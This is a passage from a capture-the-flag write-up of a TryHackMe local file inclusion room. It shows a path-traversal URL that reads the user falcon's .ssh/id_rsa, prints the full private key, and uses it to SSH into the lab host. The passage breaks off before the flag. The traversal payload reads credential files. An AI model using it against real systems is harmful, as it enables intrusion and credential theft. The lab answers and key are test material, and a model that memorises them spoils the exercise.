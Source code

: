 This file can give information about the system like the name of all the existing users on the system.

`No answer needed`

4. What is the name of the user on the system?

`falcon`

5. Once you find the name of the user it's important to see if you can include anything **common** and **important** in that user's directory, could be anything like theirs **.bashrc** etc

`No answer needed`

6. Name of the file which can give you access to falcon's account on the system?

[10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa](10.10.109.9/home?page=../../home/falcon/.ssh/id_rsa)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAy5ab5+v0aBYFL7dN4O69CqvZdjpSk4/BFMOEndp71fy4qlBi
ewnTYIyKS1DjNhLdbLJZV/8oKOIx/BVSxrw3hnjL/b5d3jUpX1edcX8hjTt10LCT
ubgjWekIpspImHtp/vf9n0IlL1GIWLsxKZXEqyoSvvG4LU6ajrMyHM9jyZ7yMAsS
lHtfNzX22taxJliHF3SFDjf6Z0otY98T273qy6uTchBDEIZx7uJGQF4h9bvSq+22
e7QFY/h/cLrVUPGcRgv2VH4958A5n+BA48ioVyjGRcJlPsa8fNuFkgA8VlJqx/zD
Erf3G97zCY5iZSSm6g+9aUBAoqJqQqnZ1JY/jQIDAQABAoIBAQCjN3qEY7GM5OKB
j6Z7B0s9S+rKkxVywdQczmb6mpefRb3SpSFe3NC+3c1ddlrCFju4kf94wdIzfKxw
GbREKc8mGqAILN9abypdCoPp4u9GJ/5bMcUtJogI4/+QoCm1PXQL+ks1q7TeC7KQ
2HogibajNtbSiD2M7TCR6O3rFQU+NKW3P8R5rTJBFxSqXcoL0aZoOdIISuGo4e2D
w5p8eLHiYmKmQ3KYW58fau1Qnr8t0YoHDlG2wezNBQSckt5xxjY4XWlfcMPAQIP9
VWxv77zIqfLFYj6oH0opPHX7SbdpFVj00h7Ee2C0QR7CKj4lxmE2Dn97LEXksfWM
PqmJwiRBAoGBAPRGPZtAT7TfTac7lXbOYNj/5HuK1Pc7+GtsT8V3AJwbhkeZG/B+
ERee3gKlXhglEup0duxBwy5zTy6vsegMo7sk2ii/GlboR44Yy7OYbjrmIw7JRx6i
IIjN6YeKM+dwLGL7+xG2EavrRBJbuYfp1R139gK5CWd6Yu6xdwtCPS8xAoGBANVc
ZhSQOWzkN0Yq4CsAnKrrtIeynX7wTppy2F3N8/CQHQIYjFx0SZxs/1MlTXEpFdC+
VHhQ+Cy5O+hndqXiG5sty9wC67lZNaxuBkMoxKgX42JAgxxE41lUadAdRHJ4cq7A
1DiJ1xq3XwP1ZaUEVE/Y3EusMhtr/A6z1dGJcpcdAoGAdb6d14XqZb71iVS5OOlF
2ZOPKNXEzd+EYRN2aDJygszprv1ocEX0KzSSwye+8Vh9g7Hb2Qnh8TP3yQM7eCUP
jxe2aMmlAps4UpA1MD6bc5yW7Xur4mI32HmYxZKibj6txpC7dtASOJJQ36CDD7Zw
2aGHXcyfcdeWdIPqY+zr3SECgYEAoi4SCh93ByaSPWvp6cYVUHbKSzuiLBNOLGiP
vv4GJx3kbutqBfz+10Ci8/iu3Q11365NVwd1HcnPl+DNd1pf0Z0GEL7Hn6QIAIHB
kNs0YPGHje+ruZlDl2tq4x7cIIcd5Wf96Nwd/djVCJVIJh8cV3VoPr0teVqjxik8
poHr8KECgYBGJ/FLmaloEl00YECXAy2uMlvGyaAr2tsq28JF3LvZOXNIhB71+11V
E/gv9PP0ruJJRBv5r2DjAcsWA+sIBf5O8+z5dTeuto5v+WTrpOy8i3FLEWl3hqRH
ANCTI4EhCynYtF8zi8so5zeomlncFZg7JD/dL0gHXu4FImx5sUO9gg==
-----END RSA PRIVATE KEY-----
```

7. What is the user flag?

```
li@kali:~/CTFs/tryhackme/LFI$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/LFI$ ssh -i id_rsa falcon@10.10.109.9
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov  7 19:27:05 IST 2020

  System load:  0.0               Processes:           84
  Usage of /:   30.7% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.109.9
  Swap usage:   0%


6 packages can be updated.
```